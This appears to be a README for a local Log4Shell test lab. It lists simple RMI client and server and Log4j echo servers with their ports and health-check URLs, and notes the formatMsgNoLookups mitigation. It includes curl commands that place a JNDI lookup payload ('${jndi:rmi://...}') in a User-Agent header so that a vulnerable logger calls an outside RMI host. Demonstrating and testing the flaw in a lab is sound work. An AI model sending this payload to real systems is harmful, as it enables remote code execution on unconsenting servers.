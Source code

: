 ## server list
* SimpleRmiServer
  * port : 1234
  * health check : http://localhost:1234/healthcheck
* SimpleRmiClient
  * port : 4321
  * health check : http://localhost:4321/healthcheck
  * application runner invoke rmi hello service method
* SimpleLog4jEchoServer
  * port : 8080
  * health check : http://localhost:8080/healthcheck

## log4shell test
``` shell
$ curl -v -X GET \
--header 'User-Agent: ${jndi:rmi://yourIPAddress:10999/HelloService}' \
http://localhost:8080/doService/wow

# my example
$ curl -v -X GET \
--header 'User-Agent: ${jndi:rmi://192.168.1.6:10999/HelloService}' \
http://localhost:8080/doService/wow
```
* log4j call `jndi:rmi://yourIPAddress:10999/HelloService`
* with `-Dlog4j2.formatMsgNoLookups=true` option prevent log4shell
